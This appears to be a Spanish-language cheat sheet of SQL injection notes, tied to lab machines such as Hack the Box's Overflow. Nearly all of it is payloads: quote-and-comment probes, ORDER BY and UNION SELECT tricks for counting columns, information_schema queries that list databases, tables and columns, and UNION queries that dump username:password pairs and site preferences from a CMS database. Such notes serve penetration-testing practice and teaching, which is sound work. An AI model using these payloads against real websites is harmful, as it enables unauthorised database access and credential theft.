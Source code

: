 Podemos intentar primero confirmar la existencia de la vulnerabilidad en SQL con simplemente:

 ```s
 ' -- -
 )' -- -

'; #

  ' #
 )' #

  ' ;
 )' ;

 -- -Para obtener el numero de columnas podemos intentar un 
 ') order by 3 -- -
 
 ```

## [](#header-2)<a id="consultas_basicas">Consultas basicas</a>
Lo primero que tenemos que hacer es ejecutar una sentencia que nos muestre mas informacion si que exista error en nuestra syntax con la funcion UNION. Como por ejemplo:

```SQL
1 UNION SELECT 1
```

Si existe un error con la sentencia anterior, significara que el numero de columnas es diferente al que hemos probado, asi que podemos intentar un:

```SQL
1 UNION SELECT 1,2
```

El mismo error, significara que tendremos que aumentar igualmente el numero de columnas.
Ahora lo que queremos es sacar la primera consulta con informacion, la cual podemos tener cambiando el 1 por el 0 de la manera siguiente:

```SQL
0 UNION SELECT 1,2,3
```

El siguiente ejemplo es aplicable en la maquina Overflow de Hack the Box.

En este caso la informacion se listara en el campo 3, ya que es el que esta libre para mostrar la informacion.

 ```SQL
-- - Para listar las bases de datos podemos hacer un:
union select 1,2,database()

-- - Para listar las tablas dentro de una bd podemos hacer un:
union select 1,2,table_name from information_schema.tables where table_schema=\"cmsmsbd"\ limit {numero de posicion de la tabla},1-- -

0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

-- - Para listar las columnas dentro de una tabla podemos hacer un:
union select 1,2,column_name from information_schema.columns where table_schema=\"cmsmsbd"\ and table_name=\"cms_users"\ limit {numero de posicion de la columna},1-- -

0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

-- - Para listar los datos de una columna dentro de un mismo campo podemos hacer un:
union select 1,2,group_concat(username, 0x3a, password) from cmsmsdb.cms_users -- -
union select 1,2,sitepref_value from cmsmsdb.cms_siteprefs -- -
 ```